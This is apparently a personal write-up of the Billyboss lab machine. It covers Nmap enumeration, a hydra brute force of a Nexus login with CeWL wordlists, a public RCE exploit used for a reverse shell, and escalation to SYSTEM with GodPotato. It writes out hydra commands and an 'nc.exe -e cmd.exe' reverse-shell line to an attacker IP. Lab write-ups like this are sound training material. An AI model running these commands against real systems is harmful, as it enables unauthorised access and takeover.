# Billyboss

## Enumeration

I started with an Nmap scan as usual:

```
# Nmap 7.94SVN scan initiated Tue Jun 11 10:13:46 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.160.61
Nmap scan report for billyboss.offsec (192.168.160.61)
Host is up (0.053s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8081/tcp  open  http          Jetty 9.4.18.v20190429
|_http-server-header: Nexus/3.21.0-05 (OSS)
|_http-title: Nexus Repository Manager
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/11%OT=21%CT=1%CU=39308%PV=Y%DS=4%DC=T%G=Y%TM=6668
OS:78CB%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=I%TS=U)OPS(O1=M55
OS:1NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)
OS:WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=
OS:FFFF%O=M551NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=
OS:N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=8F13%RUD=G)IE(
OS:R=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-11T16:18:04
|_  start_date: N/A

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   51.42 ms 192.168.45.1
2   51.37 ms 192.168.45.254
3   52.62 ms 192.168.251.1
4   52.93 ms billyboss.offsec (192.168.160.61)
```

### Port 21

I started with the default anonymous login attempt for FTP but encountered a response I had not seen before:

<figure><figcaption><p>FTP connection failure</p></figcaption></figure>

I did some Googling and found this response occurs when FTP over TLS is used to access an FTP site that was created by Internet Information Services (IIS) on a Windows [Elastic Compute](https://azure.microsoft.com/en-us/resources/cloud-computing-dictionary/what-is-elastic-computing) Service (ECS) instance. ([source](https://www.alibabacloud.com/help/en/ecs/support/what-do-i-do-if-the-534-policy-requires-ssl-error-message-appears-when-i-access-an-ftp-site-deployed-on-a-windows-instance)).

It seems the FTP site is not easily accessible.

### Port 80

The HTTP site on port 80 had a pretty empty landing page:

<figure><figcaption><p>Landing page</p></figcaption></figure>

I tried running feroxbuster against the site but it was setup in such a way that even invalid links returned an HTTP `200` response. It made it so automated enumeration was difficult.

I also ran Whatweb against the server but did not learn anything particularly helpful:


```
http://billyboss.offsec [200 OK]
    Country[RESERVED][ZZ],
    HTML5,
    HTTPServer[Microsoft-IIS/10.0],
    IP[192.168.160.61],
    Meta-Author[Loic Sharma],
    Microsoft-IIS[10.0],
    Script,
    Title[BaGet]
```


#### BaGet

The documentation page linked out to the [BaGet home page](https://loic-sharma.github.io/BaGet/). BaGet is a lightweight NuGet and symbol server.

#### Upload

There is also an upload page though I am not yet entirely sure how it works:

<figure><figcaption><p>Upload page on port 80</p></figcaption></figure>

Out of curiosity I navigated to the /v3/index.json page to see what it contained. It appears to be a list of installed software packages:

<figure><figcaption><p>index.json page</p></figcaption></figure>

This all makes me think maybe there is a way to upload a malicious package and then access it.

### Port 135

I used Impacket's rpcdump against port 135 but I did not find any of the [useful RPC interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces) in the output.

### Ports 139 & 445

Some output was included in the Nmap scan:

```
...
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-11T16:18:04
|_  start_date: N/A
...
```

I attempted to use `smbmap` and `smbclient` to establish an anonymous session but was unable in both instances:

<figure><figcaption><p>Failed SMB enumeration</p></figcaption></figure>

Perhaps I will be able to find some valid credentials somewhere.&#x20;

### Port 8081

The port 8081 landing page appears to be for the [Sonatype Nexus Repository Manager](https://www.sonatype.com/products/sonatype-nexus-repository):

<figure><figcaption><p>Landing page port 8081</p></figcaption></figure>

According to Sonatype's own webpage "Sonatype Nexus Repository Manager provides a central platform for storing build artifacts, saving us\[ers] significant maintenance and hardware costs."

I tried some basic login attempts with the `Sign In` page but unfortunately the Nexus Repository version running here (3.21.0-05) is newer than the last version with a default `admin` password ([3.17.0](https://support.sonatype.com/hc/en-us/articles/213467158-How-to-reset-a-forgotten-admin-password-in-Sonatype-Nexus-Repository-3)).

Fortunately there is something even better, an [RCE vulnerability](https://www.exploit-db.com/exploits/49385).

## Foothold

The main issue with the RCE found is that it is authenticated. I attempt it with the default credentials of the exploit `admin:password` but it fails.

### Brute-Forcing the Login

I attempt a brute-force attack with some standard wordlists via `hydra` with a command structure like:


```bash
hydra -I -f -l admin -P rockyou.txt 'http-post-form://billyboss.offsec:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```


* `http-postform://` tells hydra to use an HTTP POST and the URL follows
* Colons (`:`) separate the remaining pieces of information
* `username=^USER64^` tells hydra several things:
  1. Field to substitute user into is called `username` (based on `username=`)
  2. Value in username should be base64 encoded (`^USER64^`)
* `password=^PASS64^` is the same information for the password field
* `C=/` tells hydra to send the cookies found on the root page of the URL (in this case `http://billyboss.offsec/`)
* `F=403` tells hydra a failed login (`F`) is met with a 403 code

I tried normal things like user admin paired with rockyou wordlist, etc. None of them worked. Eventually I learned about CeWL.

### CeWL

[CeWL](https://www.kali.org/tools/cewl/) (Custom Wordlist Generator) is a tool that will which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for some brute-force attack.

The basic command structure is:

```bash
cewl <url> -w <output_file>
```

I used it against `billyboss.offsec` as seen here:

<figure><figcaption><p>Utilization of cewl</p></figcaption></figure>

1. Created a standard wordlist and wrote it to `wordlist.cewl`
2. Created a copy of that wordlist with all lowercase words (`--lowercase`) and appended it to the wordlist created in step 1 (`>>`)
3. Since I did not know what would be a username or password I copied the `wordlist.cewl` file into 2 files `users.txt` and `passwords.txt` which could then be passed to the `-L` and `-P` arguments of hydra respectively
4. (Optional step) Appended rockyou wordlist to the `passwords.txt` file

I then used the hydra command below to brute force the list:


```bash
hydra -I -f -L users.txt -P passwords.txt 'http-post-form://192.168.160.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```


This was successful:

<figure><figcaption><p>Successfully brute-forced credentials</p></figcaption></figure>

### RCE

I then modified the `49385.py` exploit file to use the nexus:nexus credentials and replace the command with an encoded PowerShell reverse shell and executed it resulting in a successfully caught shell:

<figure><figcaption><p>User-level shell</p></figcaption></figure>

User level access achieved.

## Privilege Escalation

### Enumeration

Initially I had difficulty transferring things to this machine because it seems I cannot reach out over port 80. I checked and found that I could reach port 8081 though so I will have to move Apache there for this exercise. This was found by using a temporary python web server on port 8081 and trying to reach it with `Invoke-WebRequest` from the victim shell:

<figure><figcaption><p>Able to reach port 8081</p></figcaption></figure>

Despite this I was still having trouble. Instead I set up a temporary SMB server via Impacket's [`smbserver`](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py):


```bash
impacket-smbserver -debug -smb2support tools $PWD
```


I was then able to do SMB file transfers and it even had the benefit of capturing `nathan`'s hash:

<figure><figcaption></figcaption></figure>

I was then able to run peas.exe with the command:

```sh
.\peas.exe -a quiet log=nathan_peas.txt
```

### SeImpersonatePrivilege

It shouldn't have taken getting to PEAS to see this but `nathan` has `SeImpersonatePrivilege`:

<figure><figcaption><p>Nathan's privileges</p></figcaption></figure>

Usually this means PrintSpoofer for me. However that was not working on this machine:

<figure><figcaption><p>PrintSpoofer failure</p></figcaption></figure>

Poking around [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege) I found some alternative exploits for this privilege. Of the [recommended exploits](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) only [`juicy-potato`](https://github.com/ohpe/juicy-potato) and [`GodPotato`](https://github.com/BeichenDream/GodPotato) had pre-compiled binaries. I selected `GodPotato` since it seemed to offer an easy interface and the [latest release](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) was in 2023. I copy it over to the victim and start working. My first attempt uses the same command shown in the tool's `README`. Unlike in the `README` I saw no output from the command, just that it had launched:

<figure><figcaption><p>GodPotato successful command</p></figcaption></figure>

No problem, it seemed to work so I decided to construct a one-liner to launch a sell. I copied nc.exe to the victim and then ran GodPotato with the command:


```sh
.\GodPotato.exe -cmd "C:\Users\nathan\.wkg\nc.exe -e cmd.exe 192.168.45.234 8081"
```


This launched a shell which I was able to catch. For some reason `whoami` would not work but I was able to output the `proof.txt` flag from the Administrator desktop so I am calling it good:

<figure><figcaption><p>Caught NT SYSTEM shell</p></figcaption></figure>

Root access achieved.

## Learned

* [**CeWL**](https://github.com/digininja/CeWL)**:** Had never heard of this tool to generate wordlists but in the future I will probably use it for all web-based brute force attempts
* [**GodPotato**](https://github.com/BeichenDream/GodPotato)**:** I have always used PrintSpoofer to exploit SeImpersonatePrivilege. When this failed I was briefly lost before finding GodPotato

### Difficulty Rating

* **Foothold - 5/10:** The upload functionality was sufficiently misleading to make me chase it for a bit. Ultimately the only challenge was creating custom wordlists for `hydra` to crack the login on port 8081 allowing the use of the authenticated RCE
* **Privilege Escalation - 2/10:** SeImpersonatePrivilege made this fairly easy. 2 instead of 1 because PrintSpoofer failed and I had to learn a new tool.

